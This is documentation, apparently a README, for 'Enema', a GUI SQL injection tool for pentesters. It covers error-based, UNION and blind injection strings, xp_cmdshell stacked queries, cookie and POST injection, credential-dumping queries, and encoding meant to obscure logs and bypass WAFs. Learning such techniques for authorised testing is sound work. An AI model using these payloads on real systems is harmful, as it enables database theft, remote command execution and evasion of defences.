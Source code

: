 ## SQL Injection and Web Attack Framework ##
Enema is not auto-hacking software for script kiddies. This is dynamic tool for professional pentesters.

### Current version: 1.7 ###

  * Whats new:
    + Added custom plugins support.

```

  * Requirements:
    + [Python 3.10+]
    + [PyQt6]
---

  * Features:
    + Multi-platform.
    + User-friendly graphical interface.
    + Multithreaded.
    + Dump.
    + Customise your queries
    + Create your custom plugins to automate attacks

  * Supported for today:
    + POST, GET, Headers (User-Agent, Cookie, Referer, X-Forwarded-For, Custom Header ...)
    + MSSQL >=2000 and MySQL>=5.0 (You can add queries for other dbms yourself, like Oracle, Postgress)

  * Injection methods supported for today:
    + Error based injection.
    + Union based injection (using subquery).
    + Blind (time and boolean based)


[#SQL\_injection\_in\_GET\_requests](#SQL_injection_in_GET_requests.md)

[#SQL\_injection\_in\_POST\_requests,\_Headers](#SQL_injection_in_POST_requests,_Headers.md)

[#Blind\_injection](#Blind_injection.md)

[#Methods\_of\_db\_structure\_tab](#Methods_of_db_structure_tab.md)

[#Dump\_tab](#Dump_tab.md)

[#Useful\_functions](#Useful_functions.md)


---

### SQL injection in GET requests ###

---

For example vulnerable script:
```

http://site.com/vuln.aspx?id=1'
```
Response:
```

Unclosed quotation mark after the character string '1'`
```

If injection type is Error-based then ready for injection string using Enema will be:
```

http://site.com/vuln.aspx?id=1' and 1=[sub]--
```

For UNION-based sql injections you can use this url:
```

http://site.com/vuln.aspx?id=1' union all select null,null,[sub],null--
```

**`[sub]`** keyword indicates where inject SQL Substring.

If database rights - sysadmin, you can use this urls:
```

http://site.com/vuln.aspx?id=1' and 1=[sub];[cmd]--
```

**`[cmd]`** keywords indicates where inject xp\_cmdshell  and other stacked queries.

In this example `[sub]` used too. It needs for fetching xp\_cmdshell output.

Also you can use only `[cmd]` if you not interested in results or not output not available.


---

### Blind injection ###

---


**`[blind]`** keyword indicates where insert blind query.

When this keyword found in url, post data or cookies - enema enables options for blind attack in Query Tab.

For time-based injection you can define custom delay. Then run test and look for normal and delayed responses (lag checking).

If server lagging you can play with 'Max lag time' and 'Delay' options.


---

### SQL injection in POST requests, Headers ###

---


All the same, with a little correction.
For example vulnerable script:
```

http://site.com/login.aspx
Post data: _username=admin'&password=test123
```
```

Unclosed quotation mark after the character string 'admin'`
```

1. Put _http://site.com/login.aspx_ to URL.

2. Select method = _POST_.

Post data should be:
```

username=' and 1[eq][sub]--&password=test123
```

**`[eq]`** keyword means equal symbol - "=".

**This is important. Use `[eq]` instead of "=" in defined POST data or Cookies, and use**"%3b"**instead of ";" in defined Cookie header.**

For example Cookie string:
```

session=12345; uid=32321; cartid=' and 1[eq][sub]%3b[cmd]--; reffid=005541
```

If variable `[sub]` or `[cmd]` found in cookies, then Enema perceives attack as injection in cookies.


---

### Methods of db structure tab ###

---


**Tables** - fetch tables from current database.

**Columns** - fetch columns from tables in right field. (Drag and drop table or tables from left field to right.)

**Bases** - fetch basesfrom current database.

  * Supported fetching methods:
    1. not in(`[array]`)
    1. not in(`[substring]`) - multithreaded
    1. by ordinal\_position - multithreaded
    1. LIMIT - multithreaded

Field "Match pattern" for exclusive cases only.
Enema parsing sql data between "Match symbols", default match symbol is "~"

---

### Dump tab ###

---


**Table** - table for dump

**Columns** - columns for dump. Can be separated by ";".

**Primary key** - index number, something like CustomerID, or you can create your own table and insert data for dump.
e.g.
```

create table tmptbl (num int identity, sqldata varchar(8000) NULL, primary key (num)); insert into tmptbl select username + "|" + password + "|" + email from users
```

**From** and **To** - dump from position to position. (integer)

Dumper multithreaded. I successfuly tested it up to 50 threads. Your threads depend on your bandwidth speed :)

**Important**: `Dumper starts thread pool for each column. It means if you defined 10 threads and dumping table with 3 columns, dumper will start 30 threads.`


---

### Useful functions ###

---

`[urlenc]`, (for GET method). Full urlencode all between `[urlenc^ ... ^]`
This makes http request logs unreadable and bypassing some url filters / WAFs.

`[base64]`, (for GET method). Encoding to base64 all between `[base64^ ... ^]`
For situations, when input parameter encoded to base64.

Example:
```

http://www.site.com/index.asp?id=23[urlenc^ or 1=[sub]--^]
```
